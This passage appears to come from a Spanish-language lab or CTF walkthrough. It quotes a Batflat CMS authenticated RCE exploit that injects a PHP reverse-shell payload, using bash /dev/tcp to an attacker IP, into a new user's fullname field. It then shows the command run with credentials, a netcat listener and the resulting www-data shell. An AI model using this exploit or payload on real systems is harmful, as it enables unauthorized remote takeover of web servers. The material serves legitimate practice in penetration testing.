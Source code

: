 ```py
#Get URL
print((colored("[+] Getting the add-user endpoint URL","blue")))
r = s.get(url+"admin/users/add?t="+token, headers=headers).content
soup = BeautifulSoup(r, "lxml")
add_user_url = (re.search(r'action="(.*?)"', str(soup)).group(1))
sleep(0.5)

#Exploit
print((colored("[+] Adding pwnd user","blue")))
payload = "<?php system(\"/bin/bash -c 'bash -i >& /dev/tcp/" + IP + "/" + PORT + " 0>&1'\");?>"

add_user = {
    "username": (None, "pwnd"),
    "fullname": (None, payload),
    "description": (None, "pwnd"),
    "email": (None, "pwnd@evil.com"),
    "password": (None, "pwnd123"),
    "access[]": (None, "users"),
    "save": (None, "Save")
}

exploit = s.post(add_user_url, headers=headers, files=add_user)
sleep(0.5)

#Triggering reverse shell
print("")
print((colored("[+] Triggering the shell. Go nuts!","green")))
r = s.get(url+"admin/users/manage?t="+token, headers=headers)
```

Lo lanzamos como nos indica el exploit _(python3 batpwnd.py <url> <username> <password> <IP>)_ (mientras estamos escuchando en un puerto en específico, en este caso el 80) y obtenemos una shell como el usuario _www-data_.

```sh
┌──(kali㉿kali)-[/tmp]
└─$ python3 49573.py http://waynemanor.com/ bruce alfred_help_me 192.168.51.129 80
###########################################################
#######    Batflat authenticated RCE by mari0x00    #######
###########################################################

[+] Attempting user login
[+] Retrieving the token
[+] Token ID: f9567c6b53d8
[+] Getting the add-user endpoint URL
[+] Adding pwnd user

[+] Triggering the shell. Go nuts!
```

```sh
┌──(kali㉿kali)-[~]
└─$ sudo rlwrap nc -nlvp 80 
listening on [any] 80 ...
connect to [192.168.51.129] from (UNKNOWN) [192.168.51.131] 46802
bash: cannot set terminal process group (827): Inappropriate ioctl for device
bash: no job control in this shell
www-data@waynemanor:~/html/batflat/admin$
```


[exploitdb]: https://www.exploit-db.com/exploits/49573